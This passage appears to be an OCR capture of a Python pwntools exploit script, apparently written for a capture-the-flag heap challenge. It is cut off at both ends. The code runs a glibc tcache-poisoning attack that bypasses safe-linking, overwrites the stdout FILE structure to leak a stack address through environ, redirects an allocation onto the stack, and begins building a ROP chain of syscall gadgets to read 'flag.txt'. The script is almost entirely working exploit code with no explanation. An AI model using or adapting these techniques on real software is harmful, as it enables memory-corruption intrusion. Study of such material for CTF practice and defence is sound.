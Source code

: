 ```python
        free(i)

free(7)
free(8)
free(9)
free(10)

# ow size chunk 9
payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x101)
write(0, 0x300-0x10,payload)
for i in range(3):
    write(0xa,0x100-8,b"A")
free(9)
free(0)

payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x101)
payload+= p64((libc.sym['_IO_2_1_stdout_']-0x10) ^ (heap_leak+0xa10) >> 12)
write(0, 0x300-0x10,payload)
info("stdout: " + hex(libc.sym._IO_2_1_stdout_))
write(1, 0x100-0x10, "a")
payload=flat(
    0,libc.sym['_IO_file_jumps'],
    0xfbad1800 ,0xfbad1800 ,0xfbad1800 ,0xfbad1800 ,
    libc.sym['environ'],libc.sym['environ']+8,p64(libc.sym['_IO_2_1_stdout_']+131)*2,p64(libc.sym['_IO_2_1_stdout_']+132),
)

write(2, 0x100-0x10, payload)
stack = u64(p.recv(8))
info("Stack: " + hex(stack))
target=stack-0x168
log.info('[+]target:'+hex(target))

for i in range(5, 7):
    write(i, 0x280-0x8, b"a")
for i in range(5, 7):
    free(i)
free(0)
free(9)
payload = b"".ljust(0x200-0x10)
payload += flat(0, 0x281)
write(0, 0x300-0x8, payload) 

free(9)
free(0)

payload = b"".ljust(0x200-0x10)
payload+= p64(0x0) + p64(0x281)
payload+= p64((target-0x20) ^ (heap_leak+0x810) >> 12)
write(0, 0x300-0x10,payload)

poprdi=libc.address+0x000000000002a3e5
poprax=libc.address+0x0000000000045eb0
poprsi=libc.address+0x000000000002be51
poprdx=libc.address+0x000000000011f497
syscall=libc.address+0x0000000000091396
ret=libc.address+0x0000000000029cd6


write(1, 0x280-0x10, b"flag.txt\0")
payload = flat(ret, ret, ret, ret, ret, ret)
```